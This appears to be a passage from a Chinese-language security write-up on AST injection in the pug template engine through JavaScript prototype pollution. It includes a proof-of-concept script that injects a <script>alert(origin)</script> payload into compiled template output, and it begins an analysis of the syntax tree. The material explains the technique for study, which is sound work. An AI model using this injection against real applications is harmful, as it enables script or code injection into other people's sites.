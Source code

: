 ### pug template AST injection 示例

```plain
const pug = require('pug');

// 模拟原型链污染
Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>
```

当执行到 `fn({msg: 'It works'});` 这一步的时候，本质上是进入了一段函数

打印出这段函数的代码，可以看到通过原型链污染我们实现了向生成代码中插入一段字符串

```plain
(function anonymous(pug
) {
function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;
    var locals_for_with = (locals || {});

    (function (msg) {
      ;pug_debug_line = 1;
pug_html = pug_html + "\u003Ch1\u003E";
;pug_debug_line = 1;
pug_html = pug_html + (pug.escape(null == (pug_interp = msg) ? "" : pug_interp)) + "\u003Cscript\u003Ealert(origin)\u003C\u002Fscript\u003E\u003C\u002Fh1\u003E";
    }.call(this, "msg" in locals_for_with ?
        locals_for_with.msg :
        typeof msg !== 'undefined' ? msg : undefined));
    ;} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
return template;
})
```

### AST Injection 原理分析 (以 pug 为例)

#### 语法树结构

pug 解析 `h1= msg` ，生成的语法树结构：

```plain
{
    "type":"Block",
    "nodes":[
        {
            "type":"Tag",
            "name":"h1",
            "selfClosing":false,
            "block":{
                "type":"Block",
                "nodes":[
                    {
                        "type":"Code",
                        "val":"msg",
                        "buffer":true,
                        "mustEscape":true,
                        "isInline":true,
                        "line":1,
                        "column":3
```